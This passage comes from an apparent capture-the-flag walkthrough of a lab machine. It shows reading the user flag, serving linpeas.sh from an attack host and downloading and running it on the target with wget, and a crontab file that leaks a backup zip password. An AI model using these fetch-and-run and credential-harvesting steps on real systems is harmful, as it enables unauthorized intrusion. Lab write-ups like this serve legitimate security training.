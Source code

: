 Print the user flag

```bash
cat /home/enzo/user.txt
```



## Privilege Escalation for Root.flag

Now that we have a SSH connection to target machine, we can transfer a linpeas.sh script and run it to find some juicy things.

{% code title="Attack machine" %}
```bash
cp /usr/share/peass/linpeas/linpeas.sh .
python3 -m http.server 80
```
{% endcode %}

{% code title="Target machine" %}
```bash
cd /tmp
wget http://10.10.14.110/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
{% endcode %}

### crontab.db file

I found this file inder the `/opt/crontabs/`

{% code title="crontabs.db" overflow="wrap" %}
```
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}

{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```
{% endcode %}

Inside this file there is the password of grafana backups.

### Port Forwarding

Running Linpeas we can notice that the target machine has some ports hosted in local:

<figure><img src="../../../.gitbook/assets/image (241).png" alt=""><figcaption></figcaption></figure>
